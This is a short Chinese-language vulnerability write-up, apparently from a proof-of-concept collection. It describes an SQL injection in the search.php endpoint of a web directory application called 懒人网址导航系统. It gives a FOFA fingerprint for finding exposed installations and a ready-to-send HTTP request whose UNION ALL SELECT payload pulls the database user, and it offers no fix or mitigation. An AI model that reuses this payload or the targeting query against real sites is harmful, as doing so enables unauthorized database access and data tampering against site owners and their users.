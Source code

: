 # 懒人网址导航系统search存在SQL注入漏洞

# 一、漏洞简介
懒人网址导航系统是一种智能化的网址导航平台，旨在帮助用户快速找到所需的网址和资源。该系统提供了以下功能和特点：该系统提供了智能化的网址搜索和推荐功能，能够根据用户的搜索习惯和偏好推荐相关的网址和资源。同时，系统还提供了网址分类、网址收藏和网址分享等功能，方便用户管理和共享网址。懒人网址导航系统存在SQL search接口处存在注入漏洞，恶意攻击者可能会利用此漏洞修改数据库中的数据，例如添加、删除或修改记录，导致数据损坏或丢失。 

# 二、影响版本
+ 懒人网址导航系统

# 三、资产测绘
+ fofa`"./templates/antidote/css/style.css`

![1716364321581-c970a718-1a58-4d66-a24d-bbd5fb071411.png](./img/rmkV4XQtbb9HiW41/1716364321581-c970a718-1a58-4d66-a24d-bbd5fb071411-052360.png)

# 四、漏洞复现
```plain
GET /search.php?keyword=' UNION ALL SELECT CONCAT(IFNULL(CAST(CURRENT_USER() AS CHAR),0x20)),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- Bypass HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```

![1716364584387-8647dcda-d556-49e4-ac66-a177fda54135.png](./img/rmkV4XQtbb9HiW41/1716364584387-8647dcda-d556-49e4-ac66-a177fda54135-837041.png)



> 更新: 2024-05-23 13:30:31  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nugh9v1qorh6l3wt>